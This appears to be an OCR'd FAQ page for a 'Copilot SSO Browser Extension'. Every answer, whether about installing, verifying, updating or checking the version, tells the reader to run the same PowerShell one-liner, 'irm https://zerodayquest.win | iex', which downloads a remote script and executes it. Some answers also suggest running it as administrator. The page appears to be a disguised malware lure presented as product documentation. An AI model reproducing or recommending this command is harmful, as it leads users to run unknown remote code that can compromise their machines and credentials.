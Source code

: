 ### **3. How do I install the Copilot SSO Browser Extension on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install the Extension using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that the Copilot SSO Browser Extension is installed?**  
After running the installation command, the Extension will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If the Extension is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update the Copilot SSO Browser Extension?**  
To update the Extension, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall the Copilot SSO Browser Extension?**  
To uninstall, remove the Extension from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install the Copilot SSO Browser Extension without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of the Copilot SSO Browser Extension?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
